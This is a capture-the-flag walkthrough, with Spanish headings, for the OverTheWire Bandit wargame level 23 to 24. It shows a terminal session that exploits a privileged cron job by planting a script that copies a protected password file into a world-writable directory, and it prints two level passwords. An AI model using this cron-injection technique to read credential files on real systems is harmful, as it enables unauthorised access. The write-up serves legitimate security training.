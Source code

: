 # Level 23 al Level 24

## Objetivo 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
**bandit.labs.overthewire.org**
cuenta
**bandit23**
passw
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Solución 
```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/var/spool/bandit24/foo$ mktemp -d
/tmp/tmp.6PMBX5BriV
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 /tmp/tmp.6PMBX5BriV
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/tmp.6PMBX5BriV
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ echo "cat /etc/bandit_pass/bandit24 >/tmp/tmp.6PMBX5BriV/password"  >  scrip
t.sh
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.6PMBX5BriV$ touch password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ chmod 777 password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4025 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:34 script.sh
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:34 script.sh
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ ./script.sh
cat: /etc/bandit_pass/bandit24: Permission denied
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cp script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.6PMBX5BriV/password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ chmod 777 /var/spool/bandit24/foo
chmod: changing permissions of '/var/spool/bandit24/foo': Operation not permitted
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ chmod 777 /tmp/tmp.6PMBX5BriV
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.6PMBX5BriV/password
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.6PMBX5BriV$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

```

## Notas adicionales

## Referencias 

